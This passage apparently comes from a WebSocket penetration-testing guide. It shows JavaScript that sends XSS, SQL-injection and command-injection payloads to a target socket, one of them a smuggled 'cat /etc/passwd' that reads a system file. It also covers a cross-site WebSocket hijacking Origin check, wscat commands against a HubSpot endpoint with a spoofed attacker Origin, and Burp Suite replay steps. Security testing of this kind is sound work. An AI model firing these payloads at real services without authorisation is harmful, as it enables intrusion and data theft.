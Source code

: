 ```javascript
const ws = new WebSocket('wss://target.com/chat');

ws.onopen = function() {
  // Try XSS injection
  ws.send('{"message":"<script>alert(1)</script>"}');

  // Try SQL injection
  ws.send('{"userId":"1\' OR 1=1--"}');

  // Try command injection
  ws.send('{"filename":"test.txt; cat /etc/passwd"}');
};
```

### Test 5: Origin Validation

```javascript
// Connect from unauthorized origin
const ws = new WebSocket('wss://target.com/socket');

// Check if server validates Origin header
// If no validation → potential CSWSH
```

---

## WebSocket Testing Tools

### wscat (Command Line)

```bash
# Install
npm install -g wscat

# Connect to WebSocket
wscat -c wss://api.hubspot.com/realtime

# Send messages interactively
> {"action":"subscribe","channel":"test"}

# With custom headers
wscat -c wss://api.hubspot.com/socket \
  -H "Authorization: Bearer TOKEN" \
  -H "Origin: https://attacker.com"
```

### Burp Suite WebSocket Support

```
1. Proxy traffic through Burp
2. WebSockets History tab
3. Intercept and modify messages
4. Replay attacks
5. Test different payloads
```
